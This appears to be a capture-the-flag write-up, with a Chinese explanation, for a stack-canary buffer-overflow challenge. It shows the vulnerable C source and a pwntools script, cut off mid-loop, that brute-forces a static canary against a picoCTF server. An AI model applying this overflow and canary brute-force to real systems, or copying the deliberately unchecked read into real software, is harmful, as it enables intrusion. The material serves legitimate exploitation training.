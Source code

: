 ```C
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

加了一个canary，每一次的canary都一样，有read函数可以精确控制写入字节数量，不会多写空字节，因此采用爆破的方式获取canary然后拿到flag。

payload：

```python
from pwn import *
context.log_level='debug'

io = remote('saturn.picoctf.net', 60065)

canary = [0, 0, 0, 0]

def get_payload(i, j):
	ret = cyclic(64)
	for k in range(j):
		ret += p8(canary[k])
	return ret + p8(i)

for j in range(4):
	for i in range(255):
		io.sendlineafter(b'> ', str(65 + j).encode())
```